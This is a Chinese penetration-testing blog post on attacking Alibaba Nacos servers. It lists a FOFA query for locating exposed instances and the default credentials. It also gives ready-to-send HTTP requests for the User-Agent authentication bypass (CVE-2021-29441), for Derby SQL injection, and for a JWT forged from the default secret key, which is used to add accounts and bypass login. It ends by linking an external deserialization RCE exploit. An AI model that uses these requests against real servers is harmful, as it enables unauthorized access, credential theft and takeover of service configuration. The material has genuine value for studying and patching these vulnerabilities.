 # 原创
：  渗透测试--Nacos系统

# 渗透测试--Nacos系统

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：前言

nacos是指**Name and Config Service**，阿里为 SpringCloud 贡献了一个子项目，叫做 SpringCloud Alibaba，其中包括了微服务开发中的几个基础组件，Nacos 就是此项目中的一项技术。可以实现服务注册中心、分布式配置中心。针对微服务架构中的服务发现、配置管理、服务治理的综合型解决方案。Nacos在攻防实战中也是经常遇到，大多数布置是在内网，但是公网上也是有不少的，因为其存在多个漏洞，师傅们也是通过nacos拿下了不少分数。

### 二：空间测绘查询

fofa:<br/> `protocol="nacos(http)"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b7e08d9310fb4090ed0f1326bcb03197.jpeg"/><br/> 可以看到公网上还真不少<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c7dab720c04a466b43911aaa0d6a6528.jpeg"/><br/> 没接触过的师傅们发现搜出来会是上图这样的，WEB页面呢？nacos的web页面是要加上正确的路径才能访问的。一般是加上/nacos/路径就可以访问，即http://x.x.x.x/nacos/<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9327e6d3d46c26df043d34e8e0191101.jpeg"/><br/> 当然也有为了安全考虑更换了默认路径的。这就要靠师傅们思路去寻找了。

### 三：Nacos默认密码

nacos系统默认账号密码为nacos/nacos，运气好的话还是可以遇到的。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0cb5a728367e7050ae51ac4890e9343b.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8dc93a62ebaba6d5c0134ffe137ab861.jpeg"/>

### 四：Nacos未授权访问CVE-2021-29441

此漏洞原因是nacos在认证时会判断User-agent是否为”Nacos-Server”，如果是的话会不进行任何认证。<br/> POC：

```
GET /nacos/v1/auth/users?pageNo=1&amp;pageSize=99 HTTP/1.1
User-Agent: Nacos-Server
Host: x.x.x.x
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/cff32ae637e8e2920f7d9d7eebcf0cfe.jpeg"/><br/> 可以得到所有用户以及加密后的密码。

### 五：SQL注入(CNVD-2020-67618）

nacos在derby端点存在SQL注入<br/> select * from users<br/> POC:

```
GET /nacos/v1/cs/ops/derby?sql=%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%75%73%65%72%73 HTTP/1.1
User-Agent: Nacos-Server
Host: x.x.x.x
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close

```

### 六: Nacos权限绕过（QVD-2023-6271）

这个漏洞个人认为是最常见的一个，有一半以上的nacos系统都存在这个洞。而且利用简单，危害极大。漏洞产生原因是nacos系统采用了默认的JWT密钥，nacos的JWT默认key是SecretKey012345678901234567890123456789012345678901234567890123456789<br/> 我们使用默认key构造新的JWT，推荐https://jwt.io/网站<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0ff98c4877c2dd525a2b2e099dfab42c.jpeg"/>

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q

```

即为默认nacos用户的一个JWT，有了JWT，那么一切身份认证都是虚无。在日常攻防中常用的就是添加用户、修改密码、登录绕过。<br/> 添加一个账号密码为test的用户

```
POST /nacos/v1/auth/users HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q
Content-type: application/x-www-form-urlencoded
User-Agent: Nacos-Server
Host: .x.x.x.x
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 27
Connection: close

username=test&amp;password=test

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2f9ead8577bd7e88822d1af0e446bbf7.jpeg"/><br/> 或者直接用accessToken绕过登录

```
POST /nacos/v1/auth/users/login HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q
User-Agent: Nacos-Server
Host: x.x.x.x
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close

username=nacos&amp;password=nacos

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5cf2e0899965b4ce69639cb03c01e51e.jpeg"/><br/> 复制响应体，然后用任意账号密码登录，拦截返回包，然后替换返回包。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9de5b727bdee703f8caee993472c8677.jpeg"/><br/> 发包，就可以成功登录<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/cd44a739f0d579903d51246138a84608.jpeg"/>

### 七：Nacos 集群 Raft 反序列化漏洞 （CNVD-2023-45001）

源于 Nacos 集群处理部分 Jraft 请求时，未限制使用 hessian 进行反 。序列化，攻击者可以通过发送特制的请求触发该漏洞，最终执行任意远程代码。nacos2.*版本默认开启了危险端口7848，1.*没有，所以该漏洞主要使用于nacos2.*版本<br/> 这个洞至今还没有打成功过，放一个大佬的exp大家可以试试<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/378a3288b22c98c29c2055b4829063f1.jpeg"/><br/> https://github.com/c0olw/NacosRce/
